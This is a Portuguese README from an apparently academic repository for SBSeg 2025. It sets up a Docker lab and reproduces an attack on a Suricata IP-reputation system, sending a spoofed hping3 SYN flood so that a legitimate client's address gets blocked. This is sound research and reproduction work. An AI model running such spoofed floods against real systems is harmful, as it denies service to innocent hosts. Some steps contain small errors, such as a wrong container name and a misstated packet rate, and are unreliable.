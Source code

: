 # SBSeg 2025

Repositório para dados relativos ao XXV Simpósio Brasileiro de Cibersegurança

Para simular o sistema utilizado nesse estudo, foi utilizado o sistema de contêineres Docker.

O sistema de reputação utilizado foi presente no Suricata (https://github.com/OISF/suricata) implementado em Docker (https://hub.docker.com/r/jasonish/suricata/).

Para simular um servidor web, foi utilizado uma imagem Nginx implementado em Docker (https://hub.docker.com/_/nginx).

Para simular as outras maquinas da rede, foi utilizado uma imagem Debian implementada em Docker (https://hub.docker.com/_/debian).

## Passo a passo para reproduzir o ataque

* Todo o processo foi executado com a maquina principal (host) em modo root!

No diretorio `SBSeg-2025-Frasao/ambiente#`, execute o comando:

```bash
docker-compose up
```

Aguarde todas as maquinas inicializarem.

As configurações a serem executadas por esse comando estão no arquivo `SBSeg-2025-Frasao/ambiente/docker-compose.yml`

### Maquina suricata

Execute os seguintes comando:

```bash
docker exec -it suricata bash
cd /etc/suricata
source venv/bin/activate
python3 monitor.py
```

O arquivo monitor.py é utilizado para atualizar a reputação dos IPs mal intencionados que tentam atacar o servidor web.

### Maquina client

Execute os seguintes comando:

```bash
docker exec -it client bash
/home/config.sh
wget -qO- 172.20.1.2
```

O arquivo config.sh atualiza o sistema e baixa algumas ferramentas para o experimento.

O `wget` é para teste de funcionamento de rede (Recomendo executar esse comando durante todo o teste, em algum momento, ele vai parar de funcionar, o ataque funcionou!).

### Maquina attacker 

Execute os seguintes comando:

```bash
docker exec -it client bash
/home/config.sh
wget -qO- 172.20.1.2
hping3 -c 5000 -S -p 80 -i u100 -a 172.20.1.3 172.20.1.2
```

`hping3`: É uma ferramenta de rede capaz de enviar pacotes ICMP/UDP/TCP personalizados e exibir as respostas do alvo.

`-c`: Numero de pacotes enviados.

`-S`: Flag utilizada no ataque (SYN).

`-p`: Porta de destino.

`-i`: Taxa de envio (u100 = 1000 pacotes por segundo).

`-a`: Endereço de spoof.

Provalvelmente será necessario executar o `hping3` umas 40 vezes (na configuração atual do suricata.rules e monitor.py) até que o client seja bloqueado.
